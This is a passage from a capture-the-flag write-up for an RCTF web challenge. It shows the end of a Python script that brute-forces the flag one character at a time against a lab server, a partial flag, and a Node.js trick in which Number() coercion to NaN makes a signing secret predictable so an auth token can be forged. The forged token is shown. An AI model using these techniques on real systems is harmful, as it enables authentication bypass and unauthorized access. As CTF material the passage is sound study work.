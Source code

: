 ```Python
        burp0_headers = {"Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1", "Origin": "http://192.168.5.66:3000", "Content-Type": "application/x-www-form-urlencoded", "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Referer": "http://192.168.5.66:3000/", "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8", "Connection": "close"}
        burp0_data = {"key1": payload}
        res = session.post(burp0_url, headers=burp0_headers, data=burp0_data)
        if res.content == b"success":
            # flag += i
            flag = i + flag
            print(flag)
            break
print(flag)
```

> RCTF{THE_FIRST_STEP_IS_TO_GET_TO_KNOW

### key2

Nodejs trick

*Number类型强转字符 eg: Number("a") -->* *NaN*

绕过检测，并且saltedSecret 会变成NaN 则saltedSecret已知，token伪造

{"username":"a","have_lovers":true}:NaN -> hash

```JavaScript
 // main.js
 userInfo.love_time = Number(love_time);
  if (userInfo.love_time < 10000 || typeof userInfo.love_time !== "number") {
    res.send(
      "There was once a sincere love in front of me, I didn't cherish it, and I regretted it when I lost it, and the most painful thing in the world is nothing more than this. If God could give me a chance to start over, I would say three words to that girl: I love you. If I had to put a deadline on this love, I would say 10,000 years."
    );
  }
  
  
  // auth.js
  const saltedSecret =
    parseInt(Buffer.from(secret).readBigUInt64BE()) +
    parseInt(userinfo.love_time);
```

```JavaScript
love_token=eyJ1c2VybmFtZSI6ImEiLCJoYXZlX2xvdmVycyI6dHJ1ZX0%3d.286addc9eb5743c5d37b3de75388db013c4b9c57de6201769c8db2cce1fedfc5
```
